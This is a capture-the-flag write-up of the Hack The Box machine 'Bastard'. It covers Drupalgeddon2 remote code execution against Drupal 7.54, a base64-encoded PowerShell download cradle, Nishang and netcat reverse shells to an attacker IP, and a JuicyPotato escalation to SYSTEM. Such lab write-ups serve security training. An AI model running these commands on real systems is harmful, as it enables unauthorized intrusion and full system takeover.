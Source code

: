 # Bastard v.1

## Enumeration

### Legion

> This package contains an open source, easy-to-use, super-extensible and semi-automated network penetration testing tool that aids in discovery, reconnaissance and exploitation of information systems.

{% embed url="https://www.kali.org/tools/legion" %}

### Port 80

#### Version

* Drupal 7.54, 2017-02-01

![](../../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_drupal\_version.png)

### RCE

{% embed url="https://github.com/dreadlocked/Drupalgeddon2" %}

```
./drupalgeddon2.rb http://bastard.htb/
.
.
.
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          4/4/2022, 6:15:32 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                          [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
                          [02]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.584 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.611 MB
Virtual Memory: In Use:    484 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                          [01]: Intel(R) PRO/1000 MT Network Connection
                                Connection Name: Local Area Connection
                                DHCP Enabled:    Yes
                                DHCP Server:     10.129.0.1
                                IP address(es)
                                [01]: 10.129.123.241
```

### What is drupalgeddon?

{% embed url="https://cyware.com/news/what-is-drupalgeddon-and-what-kind-of-targets-does-it-go-after-78f558ec" %}

{% embed url="https://www.rapid7.com/blog/post/2018/04/27/drupalgeddon-vulnerability-what-is-it-are-you-impacted" %}

`$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 ./ps_tcp.ps1`

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.61 -Port 4444
```

## Shell

The below is less known to AV but did not work because the powershell version on the machine is old

```powershell
powershell -c 'IEX(IWR http://10.10.14.61/ps_tcp.ps1 -UseBasicParsing)'
```

We have to encode our command posisbly due to quotes and bad characters. Powershell accepts base64 encoded commands. We had to convert UTF-8 to 16-bit little indian encoding

```bash
echo -n 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.61/ps_tcp.ps1")' | iconv -f ASCII -t UTF-16LE | base64 | tr -d "\n"

SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANgAxAC8AcABzAF8AdABjAHAALgBwAHMAMQAiACkA 
```

```powershell
drupalgeddon2>> powershell.exe -nop -exec bypass -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANgAxAC8AcABzAF8AdABjAHAALgBwAHMAMQAiACkA
```

![](../../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_setup\_listener.png)

![](../../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_gained\_shell.png)

![](<../../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_whoami (1).png>)

## Privledge Escalation

{% embed url="https://youtu.be/eLNYc-1ScdU?t=9033" %}

![](<../../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_Pasted image 20220404181827.png>)

{% embed url="https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505" %}

{% embed url="https://github.com/ohpe/juicy-potato" %}

```powershell
(New-Object Net.WebClient).downloadFile('http://10.10.14.61/JuicyPotato.exe','JuicyPotato.exe')
```

```powershell
(New-Object Net.WebClient).downloadFile('http://10.10.14.61/nc64.exe','nc64.exe')
```

{% embed url="http://ohpe.it/juicy-potato/CLSID" %}

Any with NT AUTHORITY\SYSTEM will work although it's trial and error to see which one will work&#x20;

Impersonating a SYSTEM process with a different service

```bash
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\inetpub\drupal-7.54\nc64 -e cmd.exe 10.10.14.61 8444" -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```

![](<../../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_Pasted image 20220404190117.png>)

![](../../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_whoami\_system.png)

## Flags

![](<../../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_userflag (1).png>)

![](../../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_rootflag.png)
